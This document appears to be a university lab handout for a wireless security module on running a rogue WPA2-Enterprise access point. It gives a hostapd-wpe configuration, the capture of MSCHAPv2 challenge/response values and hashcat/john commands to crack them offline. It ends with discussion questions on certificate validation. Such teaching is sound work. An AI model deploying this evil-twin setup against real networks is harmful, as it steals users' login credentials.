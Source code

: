 ## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** WPA2-Enterprise Phishing & Offline Cracking  
**Author:** Dr Ayman El Hajjar  

---

# Lab: Rogue WPA2-Enterprise AP and MSCHAPv2 Capture

---

### Objective

Deploy a rogue access point mimicking a WPA2-Enterprise network using a fake RADIUS server.  
Capture MSCHAPv2 credentials and attempt offline password cracking.

---

## Requirements

- Kali Linux or Raspberry Pi with external Wi-Fi adapter
- `hostapd-wpe` or `eaphammer` (included in Kali)
- `hashcat` or `john` for cracking
- A victim device configured for WPA2-Enterprise

---

## Step-by-Step Instructions

### 1. Configure the Rogue AP

- Create `hostapd-wpe.conf`:
```bash
interface=lab-wlan
driver=nl80211
ssid=6CSEF005W_WPA2_ENTERPRISE_AP
channel=6
hw_mode=g
auth_server_addr=127.0.0.1
auth_server_port=1812
auth_server_shared_secret=testing123
ieee8021x=1
wpa=2
wpa_key_mgmt=WPA-EAP
rsn_pairwise=CCMP
```
- Start the rogue AP:

```bash
sudo hostapd-wpe hostapd-wpe.conf
```
### 2. Monitor for Authentication Attempts

- Check output or logs for MSCHAPv2 challenge/response:

```csharp
[WPE] Challenge: <hex>
[WPE] Response: <hex>
```
- Save the values for offline cracking.

### 3. Crack the Hash Offline
- Using `hashcat` (`mode 5500`):

```bash
hashcat -m 5500 captured.hash /usr/share/wordlists/rockyou.txt
```

- or using `john`

```bash
john --format=chap captured.txt --wordlist=rockyou.txt
```
### Discussion Points
- Why is WPA2-Enterprise vulnerable to phishing?
- What role do server certificates play?
- Would validating certificates prevent this attack?

## Teardown
```bash
sudo pkill hostapd
sudo pkill freeradius
```
